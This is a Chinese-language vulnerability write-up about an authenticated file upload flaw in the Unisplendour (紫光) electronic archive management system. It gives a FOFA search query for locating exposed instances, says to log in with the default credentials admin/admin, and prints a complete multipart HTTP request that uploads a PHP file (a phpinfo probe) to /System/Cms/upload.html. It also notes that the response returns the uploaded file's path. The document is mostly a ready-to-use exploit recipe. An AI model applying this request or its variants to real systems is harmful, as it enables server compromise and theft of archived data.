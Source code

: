 # 

# 紫光档案管理系统 upload.html 后台文件上传漏洞

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统后台存在文件上传漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

```
紫光电子档案管理系统
```

## 网络测绘

```
app="紫光档案管理系统"
```

## 漏洞复现

登录页面

![image-20230314084520184](images/image-20230314084520184.png)

使用默认口令登录后台 admin/admin, 发送请求包

![image-20230314084534337](images/image-20230314084534337.png)

```
POST /System/Cms/upload.html?token=5117e82385cef4c12547fdd4c028b97a1-1 HTTP/1.1
Host: 
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 614
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygIRYWNxmDYiZBguT

------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="userID"

admin
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="fondsid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="comid"

1
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="token"

6b79a77180e9ec3a7ca351ebe54641a2
------WebKitFormBoundarygIRYWNxmDYiZBguT
Content-Disposition: form-data; name="files[]"; filename="phpinfo.php"
Content-Type: text/php

<?php phpinfo();?>
------WebKitFormBoundarygIRYWNxmDYiZBguT--
```

![image-20230314084553654](images/image-20230314084553654.png)

回显路径即为上传成功的文件路径

![image-20230314084608438](images/image-20230314084608438.png)
